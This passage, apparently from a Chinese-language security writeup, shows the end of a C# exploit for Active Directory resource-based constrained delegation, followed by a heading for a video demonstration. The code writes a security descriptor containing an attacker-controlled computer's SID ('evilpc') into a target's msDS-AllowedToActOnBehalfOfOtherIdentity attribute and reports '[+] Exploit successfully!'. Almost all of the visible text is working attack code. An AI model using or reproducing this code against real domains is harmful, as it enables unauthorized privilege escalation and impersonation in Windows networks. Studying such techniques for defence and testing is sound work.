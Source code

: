 ```
                System.DirectoryServices.DirectoryEntry entryToUpdate = result.GetDirectoryEntry();
                String sec_descriptor = "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;" + sid.Value + ")";
                System.Security.AccessControl.RawSecurityDescriptor sd = new RawSecurityDescriptor(sec_descriptor);
                byte[] descriptor_buffer = new byte[sd.BinaryLength];
                sd.GetBinaryForm(descriptor_buffer, 0);
                // 添加evilpc的sid到msds-allowedtoactonbehalfofotheridentity中
                entryToUpdate.Properties["msds-allowedtoactonbehalfofotheridentity"].Value = descriptor_buffer;
                try
                {
                    entryToUpdate.CommitChanges();//提交更改
                    Console.WriteLine("[+] Exploit successfully!");
                }
                catch (System.Exception ex)
                {
                    Console.WriteLine(ex.Message);
                    Console.WriteLine("[!] \nFailed...");
                    return;
                }
            }
        }
    }
}
```


## 0x05 视频演示

![](./imgs/基于资源的约束委派利用.gif)